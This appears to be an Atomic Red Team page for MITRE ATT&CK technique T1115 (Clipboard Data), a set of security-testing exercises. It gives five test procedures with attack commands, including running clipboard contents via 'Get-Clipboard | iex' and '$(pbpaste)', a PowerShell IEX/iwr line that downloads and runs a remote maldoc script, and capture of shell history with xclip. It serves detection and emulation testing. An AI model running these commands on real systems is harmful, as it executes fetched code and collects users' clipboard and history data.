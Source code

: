 # T1115 - Clipboard Data
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1115)
<blockquote>

Adversaries may collect data stored in the clipboard from users copying information within or between applications. 

For example, on Windows adversaries can access clipboard data by using <code>clip.exe</code> or <code>Get-Clipboard</code>.(Citation: MSDN Clipboard)(Citation: clip_win_server)(Citation: CISA_AA21_200B) Additionally, adversaries may monitor then replace users’ clipboard with their data (e.g., [Transmitted Data Manipulation](https://attack.mitre.org/techniques/T1565/002)).(Citation: mining_ruby_reversinglabs)

macOS and Linux also have commands, such as <code>pbpaste</code>, to grab clipboard contents.(Citation: Operating with EmPyre)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Utilize Clipboard to store or execute commands from](#atomic-test-1---utilize-clipboard-to-store-or-execute-commands-from)

- [Atomic Test #2 - Execute Commands from Clipboard using PowerShell](#atomic-test-2---execute-commands-from-clipboard-using-powershell)

- [Atomic Test #3 - Execute commands from clipboard](#atomic-test-3---execute-commands-from-clipboard)

- [Atomic Test #4 - Collect Clipboard Data via VBA](#atomic-test-4---collect-clipboard-data-via-vba)

- [Atomic Test #5 - Add or copy content to clipboard with xClip](#atomic-test-5---add-or-copy-content-to-clipboard-with-xclip)


<br/>

## Atomic Test #1 - Utilize Clipboard to store or execute commands from
Add data to clipboard to copy off or execute commands from.

**Supported Platforms:** Windows


**auto_generated_guid:** 0cd14633-58d4-4422-9ede-daa2c9474ae7






#### Attack Commands: Run with `command_prompt`! 


```cmd
dir | clip
echo "T1115" > %temp%\T1115.txt
clip < %temp%\T1115.txt
```

#### Cleanup Commands:
```cmd
del %temp%\T1115.txt >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Execute Commands from Clipboard using PowerShell
Utilize PowerShell to echo a command to clipboard and execute it

**Supported Platforms:** Windows


**auto_generated_guid:** d6dc21af-bec9-4152-be86-326b6babd416






#### Attack Commands: Run with `powershell`! 


```powershell
echo Get-Process | clip
Get-Clipboard | iex
```






<br/>
<br/>

## Atomic Test #3 - Execute commands from clipboard
Echo a command to clipboard and execute it

**Supported Platforms:** macOS


**auto_generated_guid:** 1ac2247f-65f8-4051-b51f-b0ccdfaaa5ff






#### Attack Commands: Run with `bash`! 


```bash
echo ifconfig | pbcopy
$(pbpaste)
```






<br/>
<br/>

## Atomic Test #4 - Collect Clipboard Data via VBA
This module copies the data stored in the user's clipboard and writes it to a file, $env:TEMP\atomic_T1115_clipboard_data.txt

**Supported Platforms:** Windows


**auto_generated_guid:** 9c8d5a72-9c98-48d3-b9bf-da2cc43bdf52





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Set-Clipboard -value "Atomic T1115 Test, grab data from clipboard via VBA"
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1115\src\T1115-macrocode.txt" -officeProduct "Word" -sub "GetClipboard"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\atomic_T1115_clipboard_data.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #5 - Add or copy content to clipboard with xClip
Utilize Linux Xclip to copy history and place in clipboard then output to a history.txt file. Successful execution will capture history and output to a file on disk.

**Supported Platforms:** Linux


**auto_generated_guid:** ee363e53-b083-4230-aff3-f8d955f2d5bb






#### Attack Commands: Run with `sh`! 


```sh
apt install xclip -y
history | tail -n 30 | xclip -sel clip
xclip -o > history.txt
```






<br/>
